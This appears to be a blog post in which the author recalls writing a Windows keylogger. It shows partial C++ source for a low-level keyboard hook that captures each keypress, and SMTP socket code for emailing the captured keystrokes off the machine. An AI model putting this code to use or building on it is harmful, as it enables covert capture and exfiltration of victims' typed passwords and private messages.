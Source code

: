 I've attached a snippet of the beginning of the low-level keyboard hook function code below.

```
__declspec(dllexport) LRESULT CALLBACK handlekeys(int code, WPARAM wp, LPARAM lp)
{
    if (code == HC_ACTION && (wp == WM_SYSKEYDOWN || wp == WM_KEYDOWN)) {
        static bool capslock = false;
        static bool shift = false;
        char tmp[0xFF] = {0};
        std::string str;
        DWORD msg = 1;
        KBDLLHOOKSTRUCT st_hook = *((KBDLLHOOKSTRUCT*)lp);
        bool printable;

        /*
         * Get key name as string
         */
        msg += (st_hook.scanCode << 16);
        msg += (st_hook.flags << 24);
        GetKeyNameText(msg, tmp, 0xFF);
        str = std::string(tmp);
```

There's a bunch of Windows macros as well as fixed-width redefinitions of C++ types (`DWORD` is a 4-byte unsigned integer, I believe). The function, hooked into a low-level keyboard hook, would be called when any key was pressed (almost, unless another hook is below this one, like when Task Manager starts).

I had no idea what this code did back then. It was just a mishmash of hacks I found online. The full application actually ended up working - the only problem was that it stored all the logged keys on a local file.

### Transferring keylogs

Surely it would be too much to ask for me, the hacker, to have to transfer files onto a physical USB every time I wanted to see what my user had been typing. At the time, I thought the easiest method to obtain the logfile from my own computer would have to been through email. So I looked online for how to do this. You'll probably find similar code if you perform the obvious search.

```
// Get the mail service port
lpServEntry = getservbyname("mail", 0);

// Use the SMTP default port if no other port is specified
if(!lpServEntry)
    iProtocolPort = htons(IPPORT_SMTP);
else
    iProtocolPort = lpServEntry->s_port;

// Setup a Socket Address structure
SockAddr.sin_family = AF_INET;
SockAddr.sin_port   = iProtocolPort;
SockAddr.sin_addr   = *((LPIN_ADDR)*lpHostEntry->h_addr_list);

// Connect the Socket
if(connect(hServer, (PSOCKADDR) &SockAddr, sizeof(SockAddr)))
{
    cout << "Error connecting to Server socket" << endl;

    return 1;
}

// Receive initial response from SMTP server
Check(recv(hServer, szBuffer, sizeof(szBuffer), 0), "recv() Reply");

// Send HELO server.com
```